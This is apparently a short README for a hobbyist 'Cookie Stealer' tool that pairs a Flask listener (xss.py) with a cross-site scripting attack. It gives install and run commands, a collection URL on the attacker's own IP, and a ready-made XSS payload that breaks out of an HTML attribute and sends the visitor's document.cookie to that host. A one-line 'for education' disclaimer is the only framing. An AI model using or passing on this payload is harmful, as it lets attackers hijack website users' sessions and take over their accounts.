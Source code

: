 # Cookie Stealer
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# Cookie Path :


````http://YOUR_IP/cookie/<COOKIE>``` 
 

# Payload :
  
  ````
  "><script>document.location="http://YOUR_IP/cookie/" + document.cookie </script>
  ````
  
# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

- Twitter : <a href="https://twitter.com/Sux0xOne">Sux0xOne</a>

